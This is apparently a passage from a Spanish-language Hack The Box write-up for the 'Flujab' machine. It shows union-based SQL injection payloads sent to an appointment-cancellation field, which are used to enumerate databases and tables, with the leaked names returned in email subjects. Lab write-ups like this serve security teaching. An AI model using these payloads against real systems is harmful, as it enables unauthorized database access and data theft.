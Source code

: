 Ese campo es vulnerable a inyección SQL. Tiene un total de 5 columnas

<img src="/writeups/assets/img/Flujab-htb/20.png" alt="">

En la respuesta por SMTP puedo ver un campo la data filtrada

```null
nhsnum='+union+select+1,2,database(),4,5--+-&submit=Cancel+Appointment
```

```null
b'Subject: Flu Jab Appointment - Ref:vaccinations'
```

Listo todas las bases de datos

```null
nhsnum='+union+select+1,2,group_concat(schema_name),4,5+from+information_schema.schemata--+-&submit=Cancel+Appointment
```

```null
b'Subject: Flu Jab Appointment - Ref:MedStaff,information_schema,mysql,openmrs,performance_schema,phplist,vaccinations'
```

Para la base de datos ```vaccinations```, enumero las columnas de la tabla ```admin```

```null
nhsnum='+union+select+1,2,group_concat(table_name),4,5+from+information_schema.tables+where+table_schema%3d'vaccinations'--+-&submit=Cancel+Appointment
```

```null
b'Subject: Flu Jab Appointment - Ref:admin,admin_attribute,admin_password_request,adminattribute,admintoken,attachment,attribute,bounce,bounceregex,bounceregex_bounce,config,eventlog,i18n,linktrack,linktrack_forward,linktrack_ml,linktrack_uml_click,linktrack_userclick,list,listmessage,listuser,message,message_attachment,messagedata,sendprocess,subscribepage,subscribepage_data,template,templateimage,urlcache,user,user_attribute,user_blacklist,user_blacklist_data,user_history,user_message_bounce,user_message_forward,user_message_view,usermessage,userstats'
```
